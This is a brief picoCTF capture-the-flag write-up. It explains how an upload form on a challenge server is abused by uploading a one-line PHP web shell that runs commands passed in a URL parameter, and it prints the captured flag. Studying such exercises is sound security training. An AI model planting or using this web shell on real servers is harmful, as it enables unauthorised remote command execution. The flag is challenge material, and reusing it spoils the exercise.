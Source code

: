 # ANALYSIS
This challenge is running on a web server, where we can upload a file. This way we notice that we might get a shell.


# SOLUTION
We create a php file, which can give us a command prompt from a url argument.


```php
## URL SHELL

<?php system($_GET['cmd']); ?>

 ```

After we upload this file to the server, we get a success message, as well as its location to execute it. Then, we get a shell and test for user privelleges.
  

![](assets/solve1.png)
  

We have root access so we cat the flag.
  


![](assets/solve2.png)
  
  
  
* Flag: picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
